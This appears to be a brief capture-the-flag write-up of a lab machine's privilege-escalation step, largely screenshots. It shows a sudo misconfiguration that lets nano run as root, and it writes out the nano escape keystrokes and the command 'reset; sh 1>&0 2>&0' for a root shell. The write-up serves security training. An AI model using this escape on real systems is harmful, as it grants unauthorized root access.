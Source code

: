 ![](https://i.ibb.co/wr76grR/bloodninjas.png)

![](https://i.ibb.co/PDvXDfr/firstflag.png)


# [](#header-1)Privilege Escalation:
first i use **sudo -l** and i found >>

![](https://i.ibb.co/sszf2M4/sudo.png)

we can run this command as root /bin/nano /opt/priv without password.


## [](#header-4)Nano Exploitation:

*   sudo -u root /bin/nano /opt/priv.
*   Ctrl+R,Ctrl+X .
*   you can get root shell with this command "reset; sh 1>&0 2>&0" or you can read the root flag with this command "cat /root/root.txt".


![](https://i.ibb.co/xgqbwZv/finally.png)


* Reference:
[https://gtfobins.github.io/gtfobins/nano/](Nano exploitation command in gtfobins),
[https://www.exploit-db.com/exploits/47691](OpneNetAdmin Exploit),
[https://opennetadmin.com/](OpenNetAdmin).


* if you want support me to do more WriteUp's Buy me a coffe.[https://www.buymeacoffee.com/XDev05]()

<script src="https://www.hackthebox.eu/badge/103789"></script> 
